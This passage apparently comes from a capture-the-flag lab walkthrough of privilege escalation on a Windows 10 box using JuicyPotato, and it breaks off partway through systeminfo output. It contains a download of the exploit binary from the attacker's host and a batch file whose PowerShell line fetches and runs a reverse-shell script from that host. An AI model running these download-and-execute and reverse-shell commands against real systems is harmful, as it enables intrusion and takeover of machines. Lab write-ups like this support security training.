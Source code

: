 
That means I can use potato.

### JuicyPotato

Get the latest [JuicyPotato](https://github.com/ohpe/juicy-potato/releases)
and upload it:

    
    
    PS C:\users\Destitute\appdata\local\temp> invoke-webrequest -uri http://10.10.14.15:81/juicypotato.exe -outfile jp.exe
    

I’ll also create a `rev.bat` that runs the same command I issued to the
webshell:

    
    
    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.15/Invoke-PowerShellTcp.ps1')
    

Now I need to get a valid CLSID. Based on the `systeminfo` I can see it’s
Windows 10 Enterprise:

    
    
    PS C:\Windows\SysWOW64\inetsrv>systeminfo
    
    Host Name:                 CONCEAL
    OS Name:                   Microsoft Windows 10 Enterprise
    OS Version:                10.0.15063 N/A Build 15063
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:
    Product ID:                00329-00000-00003-AA343
    Original Install Date:     12/10/2018, 20:04:27
    System Boot Time:          13/05/2019, 06:42:20
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 05/04/2016
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             en-gb;English (United Kingdom)
    Input Locale:              en-gb;English (United Kingdom)
    Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
    Total Physical Memory:     2,047 MB
    Available Physical Memory: 1,256 MB
    Virtual Memory: Max Size:  3,199 MB
    Virtual Memory: Available: 2,306 MB
    Virtual Memory: In Use:    893 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) 82574L Gigabit Network Connection
                                     Connection Name: Ethernet0
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.116
                                     [02]: fe80::4ccb:aafa:2793:40a8
                                     [03]: dead:beef::ccbd:7ffa:69d9:283f